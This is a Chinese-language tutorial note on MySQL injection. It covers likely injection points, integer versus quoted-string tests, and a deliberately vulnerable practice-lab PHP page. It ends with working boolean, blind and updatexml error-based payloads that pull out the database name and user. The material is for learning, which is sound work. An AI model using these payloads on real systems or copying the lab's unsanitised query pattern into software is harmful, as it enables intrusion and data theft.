 ### Mysql注入

​           php +  mysql

​           jsp  +  mysql       

​           asp +   sql server

​           jsp  +  oracle     

##### 1，出现的场景

​                        产生数据的地方/后端语言对数据库进行操作的地方   

​                        1，在html中注册信息的时候，用户名会校验(用户名是否可用/被用)  ajax

​                        2，注册完信息，提交保存的时候，注意是否有insert注入

​                        3，登录的时候，会不会有注入

​                        4，个人信息更改的时候 // update

​                        5，个人信息查看          //   select 

​                        6，搜索框查询信息的地方    

​                                                总之 只要是该数据包通过后端联系数据库了，那就有可能存在sql注入漏洞

#####         2，确认注入/是否有注入

​                        1  整数型注入  select * form  user   where  id =  $_POST['id'] ；  

​                                                        通过+-      来判断  比如   2=1+1  2=3-1

​                                                     select * from  user  where  id =  2;

​                                                     select * from  user  where  id =  1+1;

​                                                     select  * from  user where id  =  3-1 ;  

​                                                                    查看字节返回数   是否相同   如果相同  那就说明是整数型注入了

​                        2  符号型注入   select * form  user   where  id =  '$_POST['id'] ';

​                                                        通过         ’  判断   

​                                                      select * from  user  where  id =  '2'; 

​                                                                                                                            通过传参id=2  查看回显

​                                                     select * from  user  where  id =  '2'';  (报错)

​                                                                                                                             通过传参id=2'  查看回显

​                                                   报错产生的回显就要看后端代码怎么写的了     

​                                                                                php有个函数是   mysqli_error()   他是用来回显sql语句产生错误时 显示的字段  但是这种会直接告诉你 这里有sql注入  所以现在一般的网站不会回显了   而是直接404 

​                             报错举例:  1064 - You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1''' at line 1           

​                                                     2' 的回显   如果 与  2 不同   那么就可以尝试  2''

​                                                     select * from  user  where  id =  '2''';        如果回显字节和 2相同 与2'不同  那么就恭喜了  这里存在sql注入的  字符型注入

​                                     当然 ""  也适用

​                                                      select * form  user   where  id =  '$_POST['id'] ';

​                                                      select * form  user   where  id =  "$_POST['id'] ";

​                          3  特殊点    

​                                       1：报错注入

​                                       2：盲注                                  1                1   and 1=1  

​       报错注入   后端语言php通过mysqli_error()函数返回数据库mysql产生的错误提示     这要寻找后端语言从哪个语句回复mysqli_error()

​        这里我们查看下靶场的sql报错注入php代码

```php+HTML
<?php
error_reporting(0);
/**
 * Database mysql
 */
$db_host = "127.0.0.1";
$db_user = "root";
$db_pass = "root";
$db_name = "sqli";
$conn = mysqli_connect($db_host, $db_user, $db_pass, $db_name);
if (!$conn) {
    die("connect error: " . mysqli_connect_error());
}
if (isset($_GET["id"])) {
    $id     = $_GET['id'];
    $sql    = "select * from news where id='$id'";
    if(mysqli_query($conn, $sql)) {
        $err = FALSE;
        $err_msg = "";
    } else {
        $err = TRUE;
        $err_msg = mysqli_error($conn);
    }
}   /*这里拼接了sql语句，通过mysqli_query()函数执行语句，如果执行成功,err这个变量为false，err_msg这个数据为空
否则err这个变量为true，err_msg这个数据为回显的错误值*/
mysqli_close($conn);
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>报错注入</title>
    <link rel="stylesheet" href="static/bootstrap.min.css">
    <script src="static/jquery.min.js"></script>
    <script src="static/popper.min.js"></script>
    <script src="static/bootstrap.min.js"></script>
</head>
<body>
    <div class="container">
        <div class="jumbotron text-center">
            <h1></h1>
            <form action="" method="GET">
                <div class="input-group mb-3">
                    <div class="input-group-prepend">
                        <span class="input-group-text">ID</span>
                    </div>
                    <input type="text" class="form-control" placeholder="输个1试试？" id="id" name="id">
                    <div class="input-group-append">
                        <input type="submit" value="Search" class="btn btn-success">
                    </div>
                </div>
            </form>
            <?php
            if(isset($_GET["id"])){
                echo "<code>".$sql.'</code></br>';
                if($err) {
                    echo "查询错误: ". $err_msg;
                } else {
                    echo "查询正确";
                }
            } /*这里输出sql语句，并且通过err这个布尔值的正负回显数据，当err这个数据为 true时 回显报错*/
            ?>
        </div>
    </div>
</body>
</html>
```

​              所以 我们要怎样 报错注入  报错注入的本质还是mysqli_error()这个函数  通过什么样的逻辑才能回显mysqli_error()    

​              通过这串php代码 我们发现 当   mysqli_query($conn, $sql) 为 false时  执行  mysqli_error()    

​              即我们通过插入那串数据  才能 使 mysqli_query($conn, $sql) = false    

![image-20221109150343731](C:\Users\ming\AppData\Roaming\Typora\typora-user-images\image-20221109150343731.png)              

![image-20221109150927765](C:\Users\ming\AppData\Roaming\Typora\typora-user-images\image-20221109150927765.png)                    

没有匹配数据库中表的数据  所以 mysqli_query() = true  但是 没有数据            

![image-20221109151013101](C:\Users\ming\AppData\Roaming\Typora\typora-user-images\image-20221109151013101.png)                        

sql语句 不正确    数据库执行不了这个sql语句   报错   mysqli_query()=false   

##### 3，利用注入

mysql : 

​                    user()    current_user()    database()    length()    substr()    if(1=1,1,2)    sleep()   version()   @@version   ascii()   exp()

​          整数型

​                     select * from administrator  where  username=1+if(1=1,1,2)    

​                     select * from administrator  where  username=20-length(user())     

​                     select * from administrator  where  username=1+if(substr(user(),1,1)='r',1,2) 

​                     select * from administrator  where  username=1+if(ascii(substr(user(),1,1))=114,1,2)    

​         字符型

​                    +不起作用

​                     ![image-20221109153248614](C:\Users\ming\AppData\Roaming\Typora\typora-user-images\image-20221109153248614.png)

   ![image-20221109165705072](C:\Users\ming\AppData\Roaming\Typora\typora-user-images\image-20221109165705072.png)

在mysql中  自动连接字符           所以   可想而知 插入 2  与   2'' 为什么相同了 吗

 select * from  user  where  id =  '2'; 

 select * from  user  where  id =  '2''';      因为   '2'  连接 ''  依然是  '2'

通过 and，or   注入

select * from administrator where username='1' and 1=1 --  

select * from administrator where username='1' and 1=if(1=1,1,2) --   通过-- 来注释后方的字符

select * from administrator where username='1' and 1=if(ascii(substr(user(),1,1))=114,1,2)  -- 

​      报错型

从判断注入的时候 我们发现  插入数据 '  时    报错

  插入    '  and updatexml (1,concat(0x7e,(select database()),0x7e),1) --    //爆数据库名

​                

![image-20221109184801128](C:\Users\ming\AppData\Roaming\Typora\typora-user-images\image-20221109184801128.png)

​             '  and updatexml (1,concat(0x7e,(select user()),0x7e),1) --     // 爆用户名

![image-20221109184937722](C:\Users\ming\AppData\Roaming\Typora\typora-user-images\image-20221109184937722.png)





